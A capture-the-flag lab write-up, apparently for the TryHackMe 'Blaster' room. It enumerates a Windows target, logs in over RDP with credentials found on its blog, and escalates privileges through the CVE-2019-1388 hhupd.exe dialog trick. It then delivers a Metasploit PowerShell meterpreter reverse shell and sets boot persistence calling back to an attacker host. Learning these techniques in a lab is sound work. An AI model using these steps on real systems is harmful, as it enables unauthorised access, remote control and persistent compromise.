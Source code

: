 # Blaster
Throughout this room, we'll be looking at alternative modes of exploitation without the use of Metasploit or really exploitation tools in general beyond nmap and dirbuster. To wrap up the room, we'll be pivoting back to these tools for persistence and additional steps we can take. Without further delay, let's deploy our target machine!

## Activate forward scanners and launch proton torpedoes
Now that we've launched our target, let's perform some basic enumeration of the services running on it!
- Command : `nmap -Pn -sV -sC 10.10.101.143`

![Pasted image 20251008223451.png](thm_pics/Pasted%20image%2020251008223451.png)

What hidden directory do we discover?
- Command : `gobuster dir -u http://10.10.101.143 -w /usr/share/wordlists/dirb/common.txt`
- found nothing
- maybe use another wordlist : `/usr/share/wordlists/dirbuster/directory-list-2.3-small.txt`
- this one contains more list than common.txt

![Pasted image 20251008224641.png](thm_pics/Pasted%20image%2020251008224641.png)

- Answer : **retro**

Navigate to our discovered hidden directory, what potential username do we discover?

![Pasted image 20251008224806.png](thm_pics/Pasted%20image%2020251008224806.png)

- Answer : Wade

Crawling through the posts, it seems like our user has had some difficulties logging in recently. What possible password do we discover?

![Pasted image 20251008225226.png](thm_pics/Pasted%20image%2020251008225226.png)

- i clicked on Comments RSS, which gives me the file below

![Pasted image 20251008225156.png](thm_pics/Pasted%20image%2020251008225156.png)

- Answer : parzival

Log into the machine via Microsoft Remote Desktop (MSRDP) and read user.txt. What are it's contents?
Command : `rdesktop -u Wade -p 'parzival' 10.10.101.143`

![Pasted image 20251008225653.png](thm_pics/Pasted%20image%2020251008225653.png)

## Breaching the Control Room
Now that we've gained access to our target system, let's see if we can find a way to escalate. To start, let's scout around the system to see if we can find anything of interest.

When enumerating a machine, it's often useful to look at what the user was last doing. Look around the machine and see if you can find the CVE which was researched on this server. What CVE was it?
Hint : _CVE-2019–1388_

Looks like an **executable file is necessary for exploitation of this vulnerability and the user didn't really clean up very well** after testing it. What is the name of this executable?

![Pasted image 20251008230957.png](thm_pics/Pasted%20image%2020251008230957.png)

- hhupd

Research vulnerability and how to exploit it. Exploit it now to gain an elevated terminal!
- right click hhupd.exe file and **run as administrator**

![Pasted image 20251008231700.png](thm_pics/Pasted%20image%2020251008231700.png)

- then click **"Show information about the publisher's cert"**

![Pasted image 20251008231821.png](thm_pics/Pasted%20image%2020251008231821.png)

- click the link issued by

![Pasted image 20251008232239.png](thm_pics/Pasted%20image%2020251008232239.png)

- click settings, file, save as
- In the file name field, input **c:\windows\system32\*.***
- scroll through and find cmd, right click and run as admin

![Pasted image 20251008232911.png](thm_pics/Pasted%20image%2020251008232911.png)

- next, find root.txt
- Command : `dir C:\root.txt /s /b 2>nul`

![Pasted image 20251008233349.png](thm_pics/Pasted%20image%2020251008233349.png)

![Pasted image 20251008233515.png](thm_pics/Pasted%20image%2020251008233515.png)

## Adoption into the collective
let's return to our exploitation tools so that we can gain remote shell access and persistence

Return to your attacker machine for this next bit. Since we know our victim machine is running Windows Defender, let's go ahead and try a different method of **payload delivery**! For this, we'll be using the **script web delivery exploit within Metasploit**. Launch Metasploit now and select '`exploit/multi/script/web_delivery`' for use.

First, let's set the target to PSH (PowerShell). Which target number is PSH?

![Pasted image 20251008233948.png](thm_pics/Pasted%20image%2020251008233948.png)

- target number = 2
- set payload = **windows/meterpreter/reverse_http**
- then type : **"run -j"**

![Pasted image 20251008235109.png](thm_pics/Pasted%20image%2020251008235109.png)

- it says "run the following command on the target machine"
- Then i proceed to run that in powershell
- **RUN in admin's shell, not normal user**

![Pasted image 20251009001137.png](thm_pics/Pasted%20image%2020251009001137.png)

![Pasted image 20251009001243.png](thm_pics/Pasted%20image%2020251009001243.png)

Last but certainly not least, let's look at persistence mechanisms via Metasploit. What command can we run in our meterpreter console to setup persistence which automatically starts when the system boots? Don't include anything beyond the base command and the option for boot startup.
- Command : `run persistence -X`

Run this command now with options that allow it to connect back to your host machine should the system reboot**. **Note, you'll need to create a listener via the handler exploit to allow for this remote connection in actual practice**.** Congrats, you've now gain full control over the remote host and have established persistence for further operations!

![[Pasted image 20251009001723.png]]

- so i use : windows/local/persistence module instead
- set LPORT 6789, LHOST = 10.23.125.244
- set payload windows/meterpreter/reverse_tcp

![Pasted image 20251009001920.png](thm_pics/Pasted%20image%2020251009001920.png)


